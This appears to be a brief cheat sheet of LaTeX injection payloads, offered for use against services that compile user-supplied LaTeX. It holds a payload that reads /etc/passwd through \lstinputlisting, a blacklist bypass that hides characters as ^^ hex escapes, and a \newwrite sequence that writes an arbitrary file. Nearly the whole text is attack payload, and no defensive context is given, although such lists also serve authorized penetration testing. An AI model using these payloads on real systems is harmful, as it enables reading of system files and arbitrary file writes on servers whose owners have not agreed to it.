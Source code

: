 ## read file

```tex
\lstinputlisting{/etc/passwd}
```

## bypass blacklist

To bypass blacklists try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

## write file

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```